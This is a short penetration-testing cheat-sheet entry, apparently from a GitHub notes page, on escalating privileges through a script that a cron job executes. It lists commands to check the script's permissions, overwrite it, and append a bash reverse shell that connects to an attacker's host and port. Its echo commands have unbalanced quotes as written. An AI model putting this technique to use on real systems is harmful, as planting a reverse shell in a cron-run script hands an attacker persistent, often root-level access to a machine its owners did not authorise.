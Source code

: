 <h3>file execution cronjob</h3>
**check priv**
``ls -l <path/to/file.sh>

**overwrite**
``echo ‘#!/bin/bash’ > <path/to/file.sh>

**append** (with reverse shell)
``echo 'bash -i >& /dev/tcp/<lhost/lport> 0>&1 >> <path/to/file.sh>
